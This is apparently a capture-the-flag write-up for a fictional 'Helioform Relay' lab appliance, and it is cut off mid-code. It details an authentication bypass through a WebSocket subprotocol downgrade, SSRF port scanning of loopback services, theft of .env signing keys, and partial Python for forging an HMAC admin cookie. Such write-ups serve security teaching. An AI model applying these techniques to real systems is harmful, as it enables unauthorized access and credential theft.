








# Helioform Relay

I had the web port and nothing else. No binary, no source, no client. The challenge description says the flag is at `/flag` inside the container. I pointed my browser at `http://127.0.0.1:18080/` and started reading.

The landing page is plain. It calls itself "Helioform Relay 4.2" and says it sits at the edge of a generation site. Inverters publish samples onto something called "the mesh." There is a compliance ledger and an operator console. Two links: one to `/docs/hsp` (protocol notes), one to `/console/login` (a sign-in form).

No input fields on the main page. No JavaScript. No hidden endpoints in the HTML. Just those two links.



---

## The login form is a decoy

I tried `admin` / `admin`, `operator` / `operator`, empty fields, SQL injection in both fields. Every single attempt comes back the same way: "Invalid credentials." No rate limiting, no lockout, no different error for wrong username vs wrong password. There is no timing difference either. This is not a brute-force challenge.



The login page has a link to `/docs/session` — the session documentation. I read every word.



Here is what the session page says:

```text
cookie      hsp_session
value       payload_b64.mac_hex
payload     base64url(JSON), padding removed
json        iss, aud, role, exp
role        admin
mac         HMAC-SHA256(CONSOLE_MAC_KEY, payload_b64) as lowercase hex
            the key is the literal environment string, not hex-decoded
iss, aud    must match the factory environment on this appliance
```

So the admin session is not a password login at all. It is a cookie: the base64url-encoded JSON payload, a dot, and the HMAC-SHA256 of that payload using a key called `CONSOLE_MAC_KEY`. The JSON needs four fields: `iss`, `aud`, `role` (must be `admin`), and `exp` (a Unix timestamp in the future).

The page explicitly says the signing key is not in the document. Without `CONSOLE_MAC_KEY`, and without the correct values of `iss` and `aud`, I cannot forge the cookie. I saved this information and moved on. The password form is a dead end.

---

## Reading the mesh protocol documentation

`/docs/hsp` documents something called HSP — the Helioform Session Protocol. This is a custom binary protocol. I had never seen it before. Here is the framing:

```text
offset  size  field
0       4     magic    HSP1       (four ASCII bytes: 0x48 0x53 0x50 0x31)
4       2     opcode              (little-endian u16)
6       2     flags               (little-endian u16, bit 0 set on a reply)
8       4     body length         (little-endian u32)
12      n     body
```

Every HSP message is a 12-byte header followed by the body. The magic is the literal ASCII string `HSP1`. Opcodes and lengths are little-endian. When the server replies successfully, it echoes back the same opcode with flags set to `0x0001`. An error reply uses opcode `0x007F` with an ASCII error message as the body.



The page says the mesh lives at `GET /mesh` as a WebSocket endpoint. There are two subprotocols:

**`hsp.ws.1` — the customer protocol.** Each binary WebSocket message carries exactly one HSP frame. The customer opcodes are:

| opcode | name      | body                    |
|--------|-----------|-------------------------|
| 0x01   | HELLO     | optional client name    |
| 0x02   | PING      | empty                   |
| 0x03   | SUBSCRIBE | ignored; returns one telemetry line |

That is three opcodes. HELLO, PING, SUBSCRIBE. Nothing about writing, reading files, connecting to other services, or anything that looks useful for getting a flag.

**`hsp.raw.1` — the agent protocol.** One paragraph at the bottom of the page describes this. It says agents that "cannot mask WebSocket frames" request subprotocol `hsp.raw.1`. After the 101 Switching Protocols response, the socket becomes a raw HSP byte stream — no more WebSocket framing. The page claims the edge authenticates an agent before it can open a channel, and says a normal client must not send `hsp.raw.1`.

That paragraph is easy to skip. I almost did. But the words "open a channel" stood out. The customer protocol has no channel opcode. The agent protocol apparently does.

---

## Testing the customer WebSocket

Before trying anything clever, I connected to `ws://127.0.0.1:18080/mesh` with subprotocol `hsp.ws.1` and spoke the documented protocol. Each HSP frame goes inside a masked binary WebSocket message.

I built a small Python script using only the standard library — `socket`, `struct`, `hashlib`, `os`. The WebSocket upgrade is a regular HTTP request with the `Upgrade: websocket` headers, and after the 101 I wrap each HSP frame in a WebSocket binary frame with a 4-byte mask.

```text
>> opcode=0x0001 HELLO  "field-laptop"
<< opcode=0x0001 flags=0x0001
   hsp-edge/4.2 transport=websocket auth=session
   commands=HELLO:0x01,PING:0x02,SUBSCRIBE:0x03

>> opcode=0x0002 PING
<< pong

>> opcode=0x0003 SUBSCRIBE  "north"
<< site=north kw=14.2
```

Look at the HELLO banner carefully. It says `auth=session` and the command list is `HELLO:0x01,PING:0x02,SUBSCRIBE:0x03`. Only those three. No DIAL, no EXPORT, no STATUS. This is a telemetry viewer. It reads one measurement from one inverter.

I tried sending opcode `0x10` anyway, because the documentation mentioned "opening a channel" and `0x10` is the first round number after the documented opcodes:

```text
>> opcode=0x0010  body=127.0.0.1:80
<< opcode=0x007f
   err: scope edge.dial required
```

Opcode `0x10` exists. The server knows what it is. But on the customer WebSocket, it requires a scope called `edge.dial` that a customer session never has. There is no cookie, no header, no query parameter on this WebSocket that grants that scope. I confirmed by trying opcode `0x11`:

```text
>> opcode=0x0011
<< err: unknown opcode
```

`0x11` is unknown, but `0x10` is known and just forbidden. The customer transport is a dead end for anything beyond telemetry.

---

## The protocol downgrade — hsp.raw.1

Same WebSocket upgrade, same URL (`/mesh`), but I changed one header: `Sec-WebSocket-Protocol: hsp.raw.1`.

The server responded with `101 Switching Protocols` and echoed back `Sec-WebSocket-Protocol: hsp.raw.1`. The connection is now open.

Here is the critical difference: after the 101, I do **not** send WebSocket frames. I send raw HSP bytes directly on the TCP socket. The 12-byte HSP header, then the body, no WebSocket mask, no WebSocket length prefix.

```text
>> opcode=0x0001 HELLO  "agent"
<< opcode=0x0001 flags=0x0001 len=134
   hsp-edge/4.2 transport=raw auth=legacy-proxy
   commands=HELLO:0x01,PING:0x02,DIAL:0x10
   dial=host:port
   dial-ack=splices
   egress=127.0.0.1
```

The banner is completely different from the customer one:

- `transport=raw` instead of `transport=websocket`
- `auth=legacy-proxy` instead of `auth=session`
- The command list is `HELLO:0x01,PING:0x02,DIAL:0x10` — **DIAL is listed**
- It tells me the DIAL body format: `host:port`
- It tells me what happens on success: `dial-ack=splices` — the socket gets spliced to the target
- It tells me the egress restriction: `egress=127.0.0.1` — only loopback

Here is the raw hex of that banner response:

```text
0000  68 73 70 2d 65 64 67 65 2f 34 2e 32 20 74 72 61   hsp-edge/4.2 tra
0010  6e 73 70 6f 72 74 3d 72 61 77 20 61 75 74 68 3d   nsport=raw auth=
0020  6c 65 67 61 63 79 2d 70 72 6f 78 79 0a 63 6f 6d   legacy-proxy.com
0030  6d 61 6e 64 73 3d 48 45 4c 4c 4f 3a 30 78 30 31   mands=HELLO:0x01
0040  2c 50 49 4e 47 3a 30 78 30 32 2c 44 49 41 4c 3a   ,PING:0x02,DIAL:
0050  30 78 31 30 0a 64 69 61 6c 3d 68 6f 73 74 3a 70   0x10.dial=host:p
0060  6f 72 74 0a 64 69 61 6c 2d 61 63 6b 3d 73 70 6c   ort.dial-ack=spl
0070  69 63 65 73 0a 65 67 72 65 73 73 3d 31 32 37 2e   ices.egress=127.
0080  30 2e 30 2e 31 0a                                 0.0.1.
```

The documentation said the edge authenticates agents before they can open a channel. The authentication is `legacy-proxy` — it checks whether a proxy already authenticated the connection. The WebSocket upgrade counts as that authentication. There is no actual credential check. Anyone who asks for `hsp.raw.1` gets agent privileges. This is the first vulnerability: a protocol downgrade that bypasses authentication.

---

## SSRF via DIAL — mapping the internal services

DIAL takes `host:port` as the body. The banner says egress is restricted to `127.0.0.1`. I tested the boundaries:

```text
>> opcode=0x0010  8.8.8.8:53          << err: egress denied
>> opcode=0x0010  127.0.0.1:80        << err: dial failed
>> opcode=0x0010  127.0.0.1:443       << err: dial failed
>> opcode=0x0010  localhost:7710       << err: egress denied
>> opcode=0x0010  not-a-target         << err: dial target required (host:port)
```

Important observations:
- `8.8.8.8` → `egress denied`. External hosts are blocked.
- `localhost` → `egress denied`. The check is a literal string comparison against `127.0.0.1`. `localhost` is not `127.0.0.1` in this comparison.
- `127.0.0.1:80` → `dial failed`. The TCP connection was attempted but refused. This is different from `egress denied` — a refused port means the connect happened and nothing was listening. This is an SSRF oracle.
- `not-a-target` → format error.

I scanned `127.0.0.1` on common ports (22, 80, 443, 1337, 3000, 8080) and every port from 7600 through 7740. Most came back `dial failed`. Five ports answered:

```text
open ports: 8080, 7710, 7711, 7712, 7713
```

Port 8080 is the public web server I was already talking to. The other four are internal loopback services.

---

## Talking to catalogd (port 7710)

When DIAL succeeds, the server responds with `ok splice` and from that point forward, every byte I send goes directly to the internal service and every byte it sends comes back to me. The edge is out of the way — it has glued my socket to the target.

I dialed `127.0.0.1:7710` and sent an HSP HELLO:

```text
>> DIAL 127.0.0.1:7710
<< opcode=0x0010 flags=0x0001
   ok splice

>> HELLO
<< opcode=0x0001 flags=0x0001 len=260
   nonce=9f92df840fe847ddedd4c64febe52a3b
   ticket_opcode=0x20
   ticket_body=nonce
   export_opcode=0x30
   export_fields=ticket,path
   status_opcode=0x40
   status_fields=ticket
   body=key=value lines
   services:
   127.0.0.1:7710 catalogd
   127.0.0.1:7711 provd
   127.0.0.1:7712 recordd
```

This is a service catalog. It gives me:
- A **nonce** — a one-time value for getting a ticket
- The opcodes and body formats for every internal service
- The service directory: catalogd (7710), provd (7711), recordd (7712)

Notice that port 7713 is not listed here. I left it alone for now.

The catalog says opcode `0x20` issues a ticket if I send back the nonce. The ticket is needed for talking to the other services. I sent the nonce:

```text
>> opcode=0x0020
   9f92df840fe847ddedd4c64febe52a3b

<< opcode=0x0020
   ticket=tkt.9f92df840fe847ddedd4c64febe52a3b.5928fdca6c64c7c6cc8dea0983224a0a
   ttl=600
```

A mesh ticket with a ten-minute TTL. Good for all internal services.

---

## Exfiltrating secrets from provd (port 7711)

Port 7711 is `provd`. The catalog said export is opcode `0x30` with body format `ticket=...\npath=...`. I tried to read the flag directly:

```text
>> opcode=0x0030
   ticket=tkt.9f92df840fe847ddedd4c64febe52a3b.5928fdca6c64c7c6cc8dea0983224a0a
   path=/flag

<< err: dotenv loader refuses non-env path
```

It only serves `.env` files. I tried other paths:

```text
path=/etc/passwd                        << err: dotenv loader refuses non-env path
path=/.env                              << err: path outside provision root
path=/etc/.env                          << err: path outside provision root
path=/opt/helioform/relay.env           << err: path outside provision root
path=/var/lib/helioform/.env            << err: path outside provision root
```

Two different errors: "refuses non-env path" means the file extension is wrong. "path outside provision root" means the directory is wrong but the extension is accepted. Somewhere there is a root directory it allows.

```text
path=/etc/helioform/.env                << err: no such env file
```

Different error again — "no such env file." The directory `/etc/helioform/` is inside the allowed root. Now I just need the right filename. The product is called Helioform Relay, so:

```text
>> path=/etc/helioform/relay.env
<< opcode=0x0030 flags=0x0001 len=397

# Helioform Relay factory environment. Written by the appliance provisioner.
# The console verifier and the replication MAC both fall back to these values
# when the site has not been moved to the hardware keystore.
CONSOLE_MAC_KEY=7f3c9a2e1b84d056a0c3e91f44b7d2aa
CONSOLE_ISS=helioform-factory
CONSOLE_AUD=relay-console
REPLICATION_MAC_KEY=c1d4e8f02a6b9375d0e1f4a8b2c65d90
MESH_CAPTURE_ENABLED=1
```

Everything I need for the session cookie: `CONSOLE_MAC_KEY`, `CONSOLE_ISS`, `CONSOLE_AUD`. And a bonus: `REPLICATION_MAC_KEY`, which I did not know I needed yet.

I also found `collector.env` in the same directory:

```text
# Identity the site collector presents on the replication port.
COLLECTOR_PEER=relay-collector
COLLECTOR_INTERVAL_SEC=5
LOG_ROOT=/var/log/helioform/streams
SITE_ID=north
```

The collector talks to something on a "replication port" every 5 seconds. Its peer name is `relay-collector`. Its log directory is `/var/log/helioform/streams`. I saved all of this.

---

## Checking recordd (port 7712)

Port 7712 is `recordd`. The catalog said status is opcode `0x40` with body `ticket=...`:

```text
<< opcode=0x0040
   epoch=7
   tip=47a237fede22de258c6ae30e9ffe7fdca76d7c8b1f16a8325f84100699c59640
   bind=d70e37a4a0ea69726232246e6bde2c8c
   repl_port=7713
   write=peer-only
```

Now I know what port 7713 is: the replication port. And writes are "peer-only" — only an authenticated peer can write to the ledger.

I connected to 7713 and tried talking to it:

```text
>> DIAL 127.0.0.1:7713
<< ok splice

>> opcode=0x0001 HELLO
<< err: peer handshake required

>> opcode=0x0017  body=hello
<< err: peer hello required
```

Opcode `0x17` is recognized (the server knows it is a blob opcode) but a peer hello is required first. Opcode `0x11` is the peer hello. But I do not know the wire format yet. The status says "peer-only" and the mesh ticket does not work here. I stopped guessing.

---

## Forging the admin session cookie

Back to the session documentation. I now have everything:

- `CONSOLE_MAC_KEY` = `7f3c9a2e1b84d056a0c3e91f44b7d2aa`
- `CONSOLE_ISS` = `helioform-factory`
- `CONSOLE_AUD` = `relay-console`

The cookie format from `/docs/session`: `base64url(json).hmac_sha256_hex`

I built the JSON payload:

```python
import base64, hashlib, hmac, json, time

claims = {
    "iss": "helioform-factory",
    "aud": "relay-console",
    "role": "admin",
    "exp": int(time.time()) + 3600
}
payload = json.dumps(claims, separators=(",", ":")).encode()
payload_b64 = base64.urlsafe_b64encode(payload).decode().rstrip("=")
mac = hmac.new(
